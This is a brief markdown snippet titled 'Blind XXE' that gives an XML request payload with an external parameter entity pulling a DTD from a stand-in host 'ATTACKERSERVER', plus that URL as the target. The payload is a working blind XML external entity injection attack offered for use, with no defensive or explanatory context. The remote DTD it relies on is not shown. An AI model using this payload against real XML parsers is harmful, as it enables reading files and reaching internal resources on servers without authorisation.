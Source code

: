 # Blind XXE #

## Request payload: ##

<?xml version="1.0" ?>
<!DOCTYPE a [
	<!ENTITY % b SYSTEM "http://ATTACKERSERVER/xxe.dtd">
	%b;
	%c;
]>
<a>&rrr;</a>

## Target URL ##

http://ATTACKERSERVER/xxe.dtd
